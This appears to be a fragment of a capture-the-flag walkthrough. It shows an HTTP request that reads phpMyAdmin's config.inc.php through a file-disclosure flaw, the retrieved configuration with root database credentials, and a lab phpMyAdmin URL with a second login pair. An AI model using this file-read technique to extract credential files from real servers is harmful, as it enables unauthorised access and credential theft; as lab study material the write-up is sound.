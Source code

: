 ```bash
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9d1gbt6tl01gh301ffnjffgn07
Connection: keep-alive

file=phpmy/config.inc.php
```



```bash
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'Root123#@!';
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
```

> root / Root123#@!

## phpmyadmin

http://192.168.70.46/phpmy

> billu / b0x_billu
